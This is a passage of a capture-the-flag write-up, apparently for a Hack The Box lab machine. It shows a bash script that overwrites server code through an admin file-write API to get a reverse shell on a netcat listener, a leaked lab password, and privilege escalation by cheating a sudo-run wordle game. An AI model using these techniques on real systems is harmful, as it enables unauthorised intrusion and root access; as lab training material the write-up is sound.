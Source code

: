 - We save it in a file named escaped
- now we can use it in a new bash script (I named it exploit.sh)
```
#! /bin/bash

TOKEN=<Your-token-here>
b64url=$(echo -n "app/api/v1/endpoints/user.py" | base64 | tr '/+' '_-' | tr -d '=')

curl -s -X POST http://10.10.11.162/api/v1/admin/file/${b64url} -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d "{\"file\":\"$(cat escaped)\"}" | jq .result -r

```
- now we launched it  
![image](https://user-images.githubusercontent.com/96747355/168488503-ee5feed5-cb34-41f4-9ca2-4b2c7a78ddf5.png)  
- Now if we refresh our swagger (/docs) we see a new method  
![image](https://user-images.githubusercontent.com/96747355/168489065-77b7aa30-1e58-4023-82dd-5ef29df3fd84.png)  
- Let's set a listener on the port we specified in our script (4444) `rlwrap nc -lvnp 4444 `
- Let's try the new method. We get our shell  
![image](https://user-images.githubusercontent.com/96747355/168490166-f71dd57b-7ecb-406c-b24f-ece1a0b072c4.png)  

## Privesc

- We can cat the auth.log we see a password  
![image](https://user-images.githubusercontent.com/96747355/168490290-6bcd8b30-c269-4e1d-be80-062c6820d067.png)  
- Turns out it is the htb user password not the root so in case we need to ssh as htb we have a password `1qaz2wsx_htb!`
- if we sudo -l with the user it launches a wordle game    
![image](https://user-images.githubusercontent.com/96747355/168490466-42f6dd3d-c658-405a-b034-a30d4fc081af.png)  
- It was good that we kept the password because I lost the shell so I could ssh back into it
- Let's try to find the script that uses wordle `find / -name *wordle* 2>/dev/null`  
![image](https://user-images.githubusercontent.com/96747355/168490642-2895e7f9-6a54-4842-9765-965abf17a2d0.png)  
- Let's make a string on the file `strings /usr/lib/x86_64-linux-gnu/security/pam_wordle.so`
- This file seems interesting `/opt/.words`  
![image](https://user-images.githubusercontent.com/96747355/168490864-c1c35cfd-95ec-4299-904b-1b0c8397ec33.png)  
- These are all the guess words
- We can use the list to cheat 
- Let's copy it and paste it in a file
- Now we just need to launch the game again with sudo -l 
```

--- Attempt 1 of 6 ---
Word: uname
Hint->???*?
```
So the word has an m somewhere else so let's find a word with another m
```
--- Attempt 2 of 6 ---
Word: mlock
Hint->*?**?
```
So now we have an `m` an `o` and a `c` except the m is not in the begining and not in 4th place let's launch another shell and grep on our file with all the words. Here is what we get:  
![image](https://user-images.githubusercontent.com/96747355/168491225-24cc2646-7d24-4ace-a4b0-9b30d50c183f.png)  
A the m is not at the begining of the word it let's try `chmod`, it works  
![image](https://user-images.githubusercontent.com/96747355/168491277-10897e27-dbc8-4e66-9c73-9c545e0ae38f.png)  
And we can run all the commands so let's just grab the flag with cat  `sudo cat /root/root.txt`
